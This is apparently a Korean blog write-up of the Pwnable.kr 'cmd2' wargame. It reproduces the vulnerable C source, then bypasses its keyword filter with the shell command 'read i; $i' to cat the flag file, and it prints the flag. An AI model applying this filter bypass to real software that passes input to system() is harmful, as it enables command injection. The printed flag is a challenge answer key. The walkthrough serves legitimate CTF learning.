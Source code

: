 ```yaml
---
layout: post
title: Pwnable.kr cmd2
categories: [Wargame]
tags: [Pwnable.kr]
comments: true
---
```


cmd1의 플래그를 패스워드로 사용하여 cmd2에 접속할 수 있다.

{% highlight c %}
cmd2@ubuntu:~$ cat cmd2.c 
#include <stdio.h>
#include <string.h>
 
int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}
 
extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++)    memset(*p, 0, strlen(*p));
}
 
int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
{% endhighlight %}

저번 문제에서 사용했던 <code><b>``</b></code>와 **`/`**를 사용할 수 없게 되었다.

그리고 추가적으로 환경변수를 모두 제거하여 환경변수에 등록하여 사용하는 방법은 막히게 되었다.

그럼 이 문제는 다른 방법으로 풀어야 하는데, 이 문제에서 사용할 수 있는 방법은 배쉬의 `기본함수`를 이용하는 방법이다.

내가 선택한 방법은 `read`를 이용한 방법이다.

read는 읽어들여 변수에 저장하는 방법이다. 명령을 읽어들이게 하여 `system`함수에서 읽어들인 명령을 수행하도록 만드는게 목표이다.

{% highlight bash %}
cmd2@ubuntu:~$ read i; echo $i
test
^D
test
{% endhighlight %}

다음과 같이 읽어들인 내용이 i변수에 저장됨을 볼 수 있다. `$i`를 `echo`의 인자로 주었는데 인자로 주지 않고 수행하는것을 보자.

{% highlight bash %}
cmd2@ubuntu:~$ read i; $i
ls
^D
cmd2  cmd2.c  flag
{% endhighlight %}

ls 명령이 정상적으로 실행된다. `read i; $i` 라는 문자열은 filter에 걸리지 않으므로 정상적으로 수행시킬 수 있는 내용이다.

이를 이용하여 문제를 해결해 보도록 하겠다.

{% highlight bash %}
cmd2@ubuntu:~$ ./cmd2 "read i; \$i"
read i; $i
/bin/cat /home/cmd2/flag
FuN_w1th_5h3ll_v4riabl3s_haha
{% endhighlight %}